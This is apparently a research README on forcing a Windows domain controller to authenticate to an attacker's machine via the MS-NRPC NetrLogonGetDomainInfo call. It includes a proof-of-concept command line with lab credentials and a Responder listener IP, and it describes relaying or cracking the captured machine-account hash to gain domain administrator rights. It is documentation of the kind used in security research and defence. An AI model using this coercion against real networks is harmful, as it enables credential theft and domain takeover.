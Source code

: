# MS-NRPC - Remote call to NetrLogonGetDomainInfo (opnum 29)

## Summary

 - **Protocol**: [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f)

 - **Protocol UUID**: 12345678-1234-abcd-ef00-01234567cffb

 - **Protocol version**: 1.0

 - **SMB Named pipe**: `\PIPE\NETLOGON`

 - **Function name**: [`NetrLogonGetDomainInfo`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/7c3ad0cc-ee05-4643-b773-4d84e1d431dc)

 - **Function operation number**: `29`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\NETLOGON` and bind to the desired [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol (with uuid `12345678-1234-abcd-ef00-01234567cffb` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\NETLOGON` This pipe is connected to the protocol [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) and allows to call RPC functions of this protocol. We will then call the remote [`NetrLogonGetDomainInfo`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/7c3ad0cc-ee05-4643-b773-4d84e1d431dc) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrLogonGetDomainInfo('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NTSTATUS NetrLogonGetDomainInfo(
   [in, string] LOGONSRV_HANDLE ServerName,
   [in, string, unique] wchar_t* ComputerName,
   [in] PNETLOGON_AUTHENTICATOR Authenticator,
   [in, out] PNETLOGON_AUTHENTICATOR ReturnAuthenticator,
   [in] DWORD Level,
   [in, switch_is(Level)] PNETLOGON_WORKSTATION_INFORMATION WkstaBuffer,
   [out, switch_is(Level)] PNETLOGON_DOMAIN_INFORMATION DomBuffer
 );
```

## References

 - Documentation of protocol [MS-NRPC]: Netlogon Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f

 - Documentation of function `NetrLogonGetDomainInfo`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/7c3ad0cc-ee05-4643-b773-4d84e1d431dc